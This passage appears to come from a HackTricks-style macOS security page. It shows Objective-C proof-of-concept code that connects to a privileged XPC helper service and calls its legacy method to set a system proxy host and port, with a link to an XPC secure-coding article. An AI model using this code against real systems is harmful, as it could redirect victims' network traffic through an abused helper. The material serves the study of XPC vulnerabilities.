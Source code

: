 ```objectivec
     
    // Establish an XPC connection
    NSString *serviceName = XPCServiceName;
    NSXPCConnection *xpcConnection = [[NSXPCConnection alloc] initWithMachServiceName:serviceName options:0x1000];
    NSXPCInterface *xpcInterface = [NSXPCInterface interfaceWithProtocol:@protocol(XPCHelperProtocol)];
    [xpcConnection setRemoteObjectInterface:xpcInterface];
    [xpcConnection resume];

    // Handle errors for the XPC connection
    id remoteProxy = [xpcConnection remoteObjectProxyWithErrorHandler:^(NSError *error) {
        NSLog(@"[-] Connection error");
        NSLog(@"[-] Error: %@", error);
    }];

    // Log the remote proxy and connection objects
    NSLog(@"Remote Proxy: %@", remoteProxy);
    NSLog(@"XPC Connection: %@", xpcConnection);

    // Use the legacy method to configure the proxy
    [remoteProxy legacyConfigureProxyWithAuthorization:authData enabled:isProxyEnabled host:proxyAddress port:proxyPort reply:^(NSError *error, BOOL success) {
        NSLog(@"Response: %@", error);
    }];
         
    // Allow some time for the operation to complete
    [NSThread sleepForTimeInterval:10.0f];
    
    NSLog(@"Finished!");
}
```

## References

* [https://theevilbit.github.io/posts/secure\_coding\_xpc\_part1/](https://theevilbit.github.io/posts/secure\_coding\_xpc\_part1/)

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
